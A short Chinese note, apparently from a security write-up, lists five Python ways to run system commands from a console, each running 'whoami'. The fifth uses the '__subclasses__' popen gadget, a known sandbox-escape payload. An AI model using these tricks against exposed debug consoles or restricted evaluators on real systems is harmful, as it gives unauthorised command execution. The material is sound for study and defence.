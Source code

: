 ![img](asset/console-pin.png)

下面列举几个可以在控制台执行系统指令的方法
```python
[console ready]
1. os
>>> import os
>>> os.popen('whoami').read()
'fxe00\n'

2. subprocess.check_output
>>> import subprocess
>>> subprocess.check_output(['whoami'])
b'fxe00\n'

3. subprocess.run
>>> import subprocess
>>> subprocess.run(['whoami'], capture_output=True, text=True)
CompletedProcess(args=['whoami'], returncode=0, stdout='fxe00\n', stderr='')

4. subprocess.Popen
>>> import subprocess
>>> subprocess.Popen(['whoami'], stdout=subprocess.PIPE).stdout.read()
b'fxe00\n'

5. find classes
>>> ''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('whoami').read() 
'fxe00\n'
```
